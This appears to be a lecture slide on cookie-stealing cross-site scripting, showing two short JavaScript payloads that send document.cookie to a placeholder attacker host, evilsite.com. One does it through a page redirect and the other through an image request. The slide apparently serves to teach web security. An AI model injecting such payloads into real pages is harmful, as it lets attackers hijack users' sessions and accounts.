

# Cookie Stealing XSS Attacks
• Attack 1
<script>
document.location = "http://www.evilsite.com/steal.php?cookie="+document.cookie; </script>
• Attack 2
<script>
img = new Image();
img.src = "http://www.evilsite.com/steal.php?cookie=" + document.cookie; </script>

36